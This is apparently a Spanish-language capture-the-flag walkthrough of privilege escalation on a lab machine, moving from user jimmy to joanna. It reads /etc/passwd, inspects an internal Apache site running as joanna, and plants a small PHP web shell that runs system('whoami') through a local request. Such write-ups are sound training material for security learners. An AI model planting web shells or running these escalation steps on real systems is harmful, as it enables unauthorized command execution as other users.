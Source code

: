 ```bash
grep "sh$" /etc/passwd
su jimmy
Password: 
```

Hemos podido conectarnos como el usuario **jimmy** pero la flag no esta en su directorio de usuario. Parece que tenemos que convertirnos
en el usuario **joanna**.

```bash
id
```

Aqui vemos quel usuario es parte del grupo **internal**. Miramos lo que hay en el directorio 
```bash
 /var/www/internal 
```


```bash
cd /var/www/internal
ls -la
cat main.php
```

Vemos que en la web de internal se podria ver el id_rsa de joanna. Miramos la configuracion de esta web

```bash
cd /etc/apache2/sites-available
cat internal.conf
```

Aqui vemos que hay una web montada en local por el puerto 52846. Lo mas interesante aqui es quel usuario joanna a sido asignada
como AssignUserID de este servicio. Intentamos comprometer este servicio, directamente desde la maquina victima.

```bash
cd /var/www/internal
curl localhost:52846
```

Aqui vemos que podemos acceder a la web internal.

1. creamos un nuevo fichero s4vishell.php

    ```php
    <?php
        system("whoami");
    ?>
    ```

1. lanzamos una peticion get a este fichero

    ```bash
    curl localhost:52846/s4vishell.php
    #Output
    joanna
    ```
